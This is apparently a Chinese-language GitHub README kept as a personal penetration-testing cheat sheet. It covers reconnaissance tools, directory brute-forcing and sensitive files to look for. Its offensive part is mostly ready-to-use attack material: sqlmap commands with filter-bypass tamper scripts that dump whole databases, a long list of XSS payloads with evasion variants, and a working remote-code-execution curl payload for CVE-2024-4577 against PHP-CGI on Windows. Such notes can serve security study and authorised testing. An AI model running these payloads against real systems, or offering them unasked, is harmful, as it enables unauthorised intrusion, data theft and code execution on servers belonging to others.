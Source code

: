 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
        ```sh
         nmap -A ip or domain
        ```
      - 指定port
        ```sh
         nmap -A -p22,80,1000 ip
        ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
        ```sh
        nuclei -u url 
        ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    - **使用方法**
        ```sh
        python Githack.py URL/.git
        ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
        ```sh
        #可以dump出所有資料庫名稱
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
        #可以dump某一資料庫的資料表
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
        #可以dump出某一資料庫、資料表的欄位
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
        #可以dump出某一資料庫、資料表的欄位內容
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
        #其他參數
        --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
        ```
  ### XSS
   - 常見Payload
       ```js
         #Basic
        <script>alert('XSS')</script>
        <scr<script>ipt>alert('XSS')</scr<script>ipt>
        "><script>alert('XSS')</script>
        "><script>alert(String.fromCharCode(88,83,83))</script>
        <script>\u0061lert('22')</script>
        <script>eval('\x61lert(\'33\')')</script>
        <script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
        <object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
        
        #img
        <img src=x onerror=alert('XSS');>
        <img src=x onerror=alert('XSS')//
        <img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
        <img src=x:alert(alt) onerror=eval(src) alt=xss>
        "><img src=x onerror=alert('XSS');>
        "><img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <><img src=1 onerror=alert(1)>
        
        #svg
        <svgonload=alert(1)>
        <svg/onload=alert('XSS')>
        <svg onload=alert(1)//
        <svg/onload=alert(String.fromCharCode(88,83,83))>
        <svg id=alert(1) onload=eval(id)>
        "><svg/onload=alert(String.fromCharCode(88,83,83))>
        "><svg/onload=alert(/XSS/)
        <svg><script>alert('33')
        <svg><script>alert&lpar;'33'&rpar;
        
        #div
        <div onpointerover="alert(45)">MOVE HERE</div>
        <div onpointerdown="alert(45)">MOVE HERE</div>
        <div onpointerenter="alert(45)">MOVE HERE</div>
        <div onpointerleave="alert(45)">MOVE HERE</div>
        <div onpointermove="alert(45)">MOVE HERE</div>
        <div onpointerout="alert(45)">MOVE HERE</div>
        <div onpointerup="alert(45)">MOVE HERE</div>
       ```
  ### XXE Injection
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
      ```sh
      curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
      ```
  - PoC
      ```sh
      https://github.com/watchtowrlabs/CVE-2024-4577
      ```
## LFI

## RF&一堆教材文件
 - https://github.com/swisskyrepo/PayloadsAllTheThings
